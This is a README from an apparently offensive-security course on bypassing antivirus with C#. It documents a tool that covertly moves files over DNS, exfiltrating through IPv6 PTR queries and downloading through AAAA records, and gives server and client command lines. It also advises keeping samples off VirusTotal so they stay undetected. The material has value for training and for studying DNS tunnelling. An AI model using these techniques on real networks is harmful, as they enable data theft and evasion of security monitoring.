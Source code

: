 # Course : Bypassing Anti Viruses by C#.NET Programming

Part 2 (Infil/Exfiltration/Transferring Techniques by C#)  , Chapter 6 : DATA Transferring Technique by DNS Traffic (AAAA Records)

eBook : Bypassing Anti Viruses by C#.NET Programming

eBook chapter 4 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH6

Related Video : 

Video 1 for chapter 6: 

Video 2 for chapter 6: https://www.youtube.com/watch?v=Ac651MbNJ_U



Warning :Don't Use "www.virustotal.com" or something like that , Never Ever ;D

Recommended:

STEP 1 : Use each AV one by one in your LAB .

STEP 2 : after "AV Signature Database Updated" your Internet Connection should be "Disconnect" .

STEP 3 : Now you can Copy and Paste your C# code to your Virtual Machine for test .

# NativePayload_IP6DNS.sh help :

Example A-Step1: (Server Side ) ./NativePayload_IP6DNS.sh -r

Example A-Step2: (Client Side ) ./NativePayload_IP6DNS.sh -u text.txt DNSMASQ_IPv4 [delay] (sec) [address] xxxx:xxxx

example IPv4:192.168.56.110 : ./NativePayload_IP6DNS.sh -r

example IPv4:192.168.56.111 : ./NativePayload_IP6DNS.sh -u text.txt 192.168.56.110 delay 0 address fe81:2222

Description: with A-Step1 you will make DNS Server , with A-Step2 you can Send text file via IPv6 PTR Queries to DNS server

# Using IPV6 PTR Queries for Exfil/Upload DATA

![](https://github.com/DamonMohammadbagher/NativePayload_IP6DNS/blob/master/Chapter%206%20-%20DATA%20Transferring%20Technique%20by%20DNS%20Traffic%20-%20AAAA%20Records/Pics/NativePayload_IP6DNS-Via-IPv6-PTR.png)

Example B-Step1: (Server Side ) ./NativePayload_IP6DNS.sh -d makedns test.txt mydomain.com [address] xxxx:xxxx

Example B-Step2: (Client Side ) ./NativePayload_IP6DNS.sh -d getdata mydomain.com DNSMASQ_IPv4"

example IPv4:192.168.56.110 : ./NativePayload_IP6DNS.sh -d makedns text.txt google.com address fe80:1234

example IPv4:192.168.56.111 : ./NativePayload_IP6DNS.sh -d getdata google.com 192.168.56.110

Description: with B-Step1 you will have DNS Server , with B-Step2 you can Dump test.txt file from server via IPv6 AAAA record Query

# Using IPv6 AAAA Records for Infil/Downlaod DATA

![](https://github.com/DamonMohammadbagher/NativePayload_IP6DNS/blob/master/Chapter%206%20-%20DATA%20Transferring%20Technique%20by%20DNS%20Traffic%20-%20AAAA%20Records/Pics/NativePayload_IP6DNS-Via-IPv6-AAAA.png)

